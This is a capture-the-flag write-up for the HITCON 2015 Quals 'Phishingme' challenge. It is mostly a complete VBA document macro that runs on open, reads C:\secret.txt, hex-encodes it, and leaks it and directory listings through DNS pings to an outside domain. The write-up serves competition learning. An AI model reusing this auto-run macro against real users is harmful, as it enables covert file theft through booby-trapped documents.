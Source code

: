 ```yaml
---
layout: post
title: "HITCON 2015 Quals: Phishingme"
modified: 2015-10-19
tags: hitcon hitcon2015quals
---
```

*This challenge was solved by and the write up was written by two of my teammates, vasporig and aljasPOD.*  

If we send in a document, the macro inside it gets executed.

Our way of coummunicating with the outside world was to execute a ping to a subdomain of ours: <data>.dns.aljaspod.com, for which we've captured all the requests with wireshark.

Most time was spent by locating the file containing the flag (C:\secret.txt), after looking for any file containing ""flag"" I've tried listing the root of C:.

Since the file could contain characters not allowed by the dns, and could be of any length, (after some tries) I've converted the flag into hex, and cut it into 16 character parts, sending the following "request" (ping) sequence:

{% highlight text %}
start.dns.aljaspod.com
<flaghex0-15>.0.dns.ajaspod.com
<flaghex16-31>.1.dns.ajaspod.com
...
<flaghex-end>.k.dns.ajaspod.com
end.k+1.dns.aljaspod.com
{% endhighlight %}

Converting the hex back resulted in the flag.

VBA code:

{% highlight vb.net %}
Function ReadFile(fname As String) As String
Dim result As String
    Set objFS = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFS.GetFile(fname)
    Set ts = objFile.OpenAsTextStream(1, -2)
    Do Until ts.AtEndOfStream
         result = result & ts.ReadLine
    Loop
    ts.Close

    ReadFile = result
End Function


Function WinDirList() As String
Dim objFSO As Object
Dim objFolder As Object
Dim objFile As Object
Dim result As String
Dim desktopDir As String
Dim currDir As String

    'Create an instance of the FileSystemObject
    Set objFSO = CreateObject("Scripting.FileSystemObject")


    currDir = CurDir()
    'CreateObject("WScript.Shell").CurrentDirectory
    Set objFolder = objFSO.GetFolder(currDir)
    'loops through each file in the directory and prints their names and path
    For Each objFile In objFolder.Files
        'print file name
        result = result & ";" & objFile.path
         'print file name
        If InStr(1, objFile.path, "flag") > 0 Then

        End If
    Next objFile


    'Get the folder object
    desktopDir = CreateObject("WScript.Shell").SpecialFolders("MyDocuments")
    Set objFolder = objFSO.GetFolder(desktopDir)
    'loops through each file in the directory and prints their names and path
    For Each objFile In objFolder.Files
        'print file name
        If InStr(1, objFile.path, "flag") > 0 Then

        End If
        result = result & ";" & objFile.path
    Next objFile


    WinDirList = result

End Function
Function toDomain(tmpStr As String) As String

        tmpStr = Replace(tmpStr, " ", "_")
        tmpStr = Replace(tmpStr, "\", ".")
        tmpStr = Replace(tmpStr, ":", ".")
        tmpStr = Replace(tmpStr, "(", ".")
        tmpStr = Replace(tmpStr, "{", ".")
        tmpStr = Replace(tmpStr, "}", ".")
        tmpStr = Replace(tmpStr, ")", ".")
        tmpStr = Replace(tmpStr, "..", ".")
        tmpStr = Replace(tmpStr, "..", ".")
        tmpStr = Replace(tmpStr, "..", ".")
        tmpStr = Replace(tmpStr, "..", ".")
        toDomain = tmpStr
End Function


Sub PWD()
Dim strTemp As String
Dim tmpStr As String
Dim currDir As String

    currDir = CurDir()
    currDir = TrailingSlash(currDir)
    Debug.Print toDomain(currDir)
    ExecIt (toDomain(currDir))
    strTemp = Dir(currDir)
    Do While strTemp <> vbNullString
       Debug.Print toDomain(strTemp)
       ExecIt (toDomain(strTemp))
       strTemp = Dir()
    Loop

End Sub


Sub ExecIt(domain As String)
Dim strProgramName As String
    'Debug.Print domain
    Call Shell("ping -n 1 -a " & domain, vbNormalFocus)
End Sub


Public Function RecursiveDir(colFiles As Collection, _
                             strFolder As String, _
                             strFileSpec As String, _
                             bIncludeSubfolders As Boolean)

    Dim strTemp As String
    Dim colFolders As New Collection
    Dim vFolderName As Variant
    Dim tmpStr As String

    'Add files in strFolder matching strFileSpec to colFiles
    strFolder = TrailingSlash(strFolder)
    strTemp = Dir(strFolder & strFileSpec)
    Do While strTemp <> vbNullString
        colFiles.Add strFolder & strTemp
        Debug.Print strFolder & strTemp
        ExecIt (toDomain(strFolder & strTemp))
        strTemp = Dir()
    Loop

    If bIncludeSubfolders Then
        'Fill colFolders with list of subdirectories of strFolder
        strTemp = Dir(strFolder, vbDirectory)
        Do While strTemp <> vbNullString
            If (strTemp <> ".") And (strTemp <> "..") Then
                If (GetAttr(strFolder & strTemp) And vbDirectory) <> 0 Then
                    colFolders.Add strTemp
                    ExecIt (toDomain(strFolder & strTemp))
                End If
            End If
            strTemp = Dir
        Loop

        'Call RecursiveDir for each subfolder in colFolders
        For Each vFolderName In colFolders
            'ignore erros
            On Error Resume Next
            'Debug.Print strFolder
            Call RecursiveDir(colFiles, strFolder & vFolderName, strFileSpec, True)
        Next vFolderName
    End If

End Function


Public Function TrailingSlash(strFolder As String) As String
    If Len(strFolder) > 0 Then
        If Right(strFolder, 1) = "\" Then
            TrailingSlash = strFolder
        Else
            TrailingSlash = strFolder & "\"
        End If
    End If
End Function

Public Function GetFileBytes(ByVal path As String) As Byte()
    Dim lngFileNum As Long
    Dim bytRtnVal() As Byte
    lngFileNum = FreeFile
    If LenB(Dir(path)) Then ''// Does file exist?
        Open path For Binary Access Read As lngFileNum
        ReDim bytRtnVal(LOF(lngFileNum) - 1&) As Byte
        Get lngFileNum, , bytRtnVal
        Close lngFileNum
    Else
        Err.Raise 53
    End If
    GetFileBytes = bytRtnVal
    Erase bytRtnVal
End Function

    Private Function ByteArrayToHex(ByRef ByteArray() As Byte) As String
        Dim l As Long, strRet As String

        For l = LBound(ByteArray) To UBound(ByteArray)
            strRet = strRet & Hex$(ByteArray(l))
        Next l
    ByteArrayToHex = strRet
    End Function

Sub Document_Open()
Dim msg As String
Dim l As Integer
Dim k As Integer
Dim Hex As String
Dim bytFile() As Byte
Dim myFile As String
Dim textline As String
Dim colFiles As New Collection
Dim vFile As Variant
    'ignore errors
    'On Error Resume Next
    'Debug.Print "=================================================================="
    ExecIt ("start.dns.aljaspod.com")
    'PWD
    bytFile = GetFileBytes("c:\secret.txt")
    Hex = ByteArrayToHex(bytFile)
    k = Len(Hex) / 16 + 1
    For l = 0 To k
        msg = Left(Hex, 16)
        If Len(Hex) < 16 Then
            Hex = ""
        Else
            Hex = Right(Hex, Len(Hex) - 16)
        End If
        ExecIt (toDomain(msg + "." + CStr(l) + ".dns.aljaspod.com"))
    Next l
    ExecIt ("end." + CStr(k) + ".dns.aljaspod.com")

End Sub
{% endhighlight %}